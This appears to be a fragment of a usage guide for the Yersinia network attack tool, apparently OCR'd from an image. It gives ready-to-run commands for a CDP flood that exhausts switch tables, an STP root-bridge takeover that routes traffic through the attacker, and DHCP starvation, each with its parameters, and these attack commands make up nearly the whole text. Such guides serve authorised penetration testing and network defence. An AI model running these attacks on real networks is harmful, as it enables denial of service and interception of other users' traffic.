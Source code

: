 ```bash

# Using subcommands (modern syntax)
yersinia interfaces
yersinia protocols cdp
yersinia attack -P cdp -a 0 -i eth0 -p device_id=hacker

# Verbose output
yersinia -G cdp -a 0 -I eth0 -v    # INFO
yersinia -G cdp -a 0 -I eth0 -vv   # DEBUG
yersinia -G cdp -a 0 -I eth0 -vvv  # TRACE
```

---

## Usage Examples

### Example 1: CDP Flooding Attack (Exhaust CAM table)

```bash
sudo yersinia -G cdp -a 0 -I eth0 \
  -M device_id_prefix=evil \
  -M interval_ms=50 \
  -M randomize_mac=true \
  -M count=1000 \
  -v
```

**What it does:**
- Floods network with 1000 CDP packets
- Random MAC addresses
- Exhausts switch CAM table/CDP neighbor database
- 50ms between packets (~20 pps)

### Example 2: STP Root Bridge Takeover

```bash
sudo yersinia -G stp -a 4 -I eth0 \
  -M bridge_mac=00:11:22:33:44:55 \
  -M priority=0 \
  -M version=2 \
  -v
```

**What it does:**
- Claims to be root bridge with priority 0
- Causes STP reconvergence
- Redirects all traffic through attacker
- RSTP (version 2) for faster convergence

### Example 3: DHCP Starvation

```bash
sudo yersinia -G dhcp -a 0 -I eth0 \
  -M rate_pps=100 \
  -M use_random_mac=true \
  -v
```
